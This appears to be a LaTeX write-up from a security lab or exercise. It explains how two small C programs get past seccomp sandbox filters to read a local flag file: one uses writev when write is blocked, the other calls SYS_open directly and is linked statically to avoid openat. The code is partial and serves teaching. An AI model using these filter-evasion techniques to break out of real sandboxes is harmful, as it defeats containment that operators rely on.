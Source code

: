 \documentclass[11pt]{article}
\begin{document}
\subsection{\texttt{sploit1.c}}
\begin{lstlisting}[language=C]
...
int main() {
    struct iovec iov[1];
...
    iov[0].iov_base = flag;
    iov[0].iov_len  = len;
    // Use writev instead of write
    writev(STDOUT_FILENO, iov, 1);
    return 0;
}
\end{lstlisting}
This bypasses the \texttt{write} restriction by calling \texttt{writev}.

\section{Sandbox2 and \texttt{sploit2.c}}

\subsection{Sandbox2 Seccomp Filter}
\begin{lstlisting}[language=bash]
$ seccomp-tools dump -c ./sandbox2
...
 0007: 0x15 0x13 0x00 0x00000002  if (A == open) goto 0027
 ...
\end{lstlisting}

In \texttt{sandbox2}, \texttt{open} is allowed, but many related calls are not (such as \texttt{openat}).
Moreover, dynamic linking itself can invoke additional syscalls (e.g., \texttt{openat} inside the
dynamic loader), so compiling our exploit statically (\texttt{-static}) to ensure we do not violate the filter. Otherwise, even an empty main program will violate the filter.

\subsection{\texttt{sploit2.c}}
Explicitly calls syscall \texttt{open}:
\begin{lstlisting}[language=C]
...
    // Call open with the SYS_open syscall number
    // to avoid the library's open() which may call openat.
    int fd = syscall(SYS_open, "./flag", O_RDONLY, 0);
...
\end{lstlisting}

Using \texttt{-static} ensures that no dynamic loader calls will occur. In the \texttt{Makefile}:
\begin{lstlisting}
CFLAGS = -Wall -ggdb -static
...
\end{lstlisting}
This way, we avoid any hidden \texttt{openat} or other forbidden system calls.
\end{document}
